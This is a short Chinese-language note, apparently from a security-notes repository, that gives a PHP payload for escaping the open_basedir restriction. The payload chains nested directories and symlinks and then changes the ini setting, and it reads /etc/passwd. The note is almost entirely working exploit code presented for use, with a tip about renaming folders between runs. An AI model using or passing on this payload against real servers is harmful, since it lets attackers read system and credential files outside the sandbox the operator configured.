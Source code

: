 # 利用symlink绕过open_basedir

#### 参考

- twitter

#### payload

```php
mkdir('/var/www/html/a/b/c/d/e/f/g/',0777,TRUE);
symlink('/var/www/html/a/b/c/d/e/f/g','foo');
ini_set('open_basedir','/var/www/html:bar/');
symlink('foo/../../../../../../','bar');
unlink('foo');
symlink('/var/www/html','foo');
echo file_get_contents('bar/etc/passwd');
```

每次要更换文件夹a和bar和foo，不然会报错文件已存在。

